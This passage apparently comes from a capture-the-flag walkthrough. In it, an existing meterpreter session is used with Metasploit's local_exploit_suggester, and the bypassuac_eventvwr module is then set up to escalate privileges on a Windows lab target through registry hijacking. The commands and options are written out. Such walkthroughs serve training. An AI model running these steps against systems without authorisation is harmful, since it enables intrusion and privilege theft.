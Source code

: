 ```bash
run post/multi/recon/local_exploit_suggester
```

![image](https://user-images.githubusercontent.com/67465230/173223385-28123ba0-11f4-4bec-8f6e-9bd8679f83e8.png)

We got many exploit suggested after running this module but we're interested in the first one.

and before background this shell, for the sake of conformity, we'll run `getsystem` command to see if can escalate our privileges to NT AUTHORITY\SYSTEM,

![image](https://user-images.githubusercontent.com/67465230/173223393-b51cb2a7-997e-4c82-ad89-84d3df820dd2.png)

We can't! 

So now, we'll first background the meterpreter shell using CTRL+Z and list all sessions using `sessions -l`,

![image](https://user-images.githubusercontent.com/67465230/173223397-a0ebb033-a753-4467-a67b-112ffddcdfc1.png)

We'll keep in mind of this session ID.

To use the exploit, let's copy the path of the exploit that we found after running *post/multi/recon/local_exploit_suggester* module on meterpreter shell and run,

```bash
use exploit/windows/local/bypassuac_eventvwr
```

![image](https://user-images.githubusercontent.com/67465230/173223399-5e4412e8-65b3-4e7a-b1ea-4fd2f7f5f767.png)

Let's have a look at what is UAC,

```
UAC (User account control ) is a windows IS security that enables a user to perform limited number of admin operations.
```

Now, let's have a look at description of this module,

```
This module will bypass Windows UAC by hijacking a special key in the Registry under the current user hive, and inserting a custom command that will get invoked when the Windows Event Viewer is 
launched. It will spawn a second shell that has the UAC flag turned 
off. This module modifies a registry key, but cleans up the key once the payload has been invoked. The module does not require the 
architecture of the payload to match the OS.
```

Now, let's take a look at what options do we need to set using `options` command,

![image](https://user-images.githubusercontent.com/67465230/173223405-98858c65-f59e-424e-8bfe-7eb6720319b4.png)

Let's set options:
 - **set lhost tun0**
 - **set session 1**

now, we'll run this exploit using `exploit` command,
